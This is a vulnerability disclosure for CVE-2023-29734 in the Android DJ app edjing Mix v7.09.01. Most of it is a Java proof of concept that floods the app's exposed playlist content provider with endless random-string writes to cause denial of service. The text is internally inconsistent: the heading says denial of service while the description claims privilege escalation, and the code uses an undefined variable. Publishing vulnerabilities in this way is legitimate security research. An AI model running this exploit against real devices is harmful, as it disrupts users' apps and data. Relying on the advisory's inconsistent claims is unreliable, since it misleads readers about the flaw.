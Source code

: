 ## Denial of Service exists in edjing Mix（CVE-2023-29734）

Vendor：MWM(http://www.edjing.com/)

Affected product：edjing Mix(com.edjing.edjingdjturntable)

Version：7.09.01

Download link：https://play.google.com/store/apps/details?id=com.edjing.edjingdjturntable

Description of the vulnerability for use in the CVE：An issue found in edjing Mix v.7.09.01 for Android allows unauthorized apps to cause escalation of privilege attacks by manipulating the database.



poc：

```java
public void attack(){
    while (true) {
        ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
        String randomString =getRandomString(52);
        String randomString2 =getRandomString(5120);
        Uri uri = Uri.parse("content://com.edjing.edjingdjturntable/playlist");
        ContentValues contentValues = new ContentValues();
        contentValues.put("playlist_id",num);
        contentValues.put("playlist_date_modified",1314234);
        contentValues.put("playlist_date_added",123456);
        contentValues.put("playlist_state",0);
        contentValues.put("playlist_name",randomString2);
        contentResolver.update(uri,contentValues,null,null);
    }
}

public static String getRandomString(int length) {
        String str = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789";
        Random random = new Random();
        StringBuffer sb = new StringBuffer();
        for (int i = 0; i < length; i++) {
            int number = random.nextInt(62);
            sb.append(str.charAt(number));
        }
        return sb.toString();
}
```



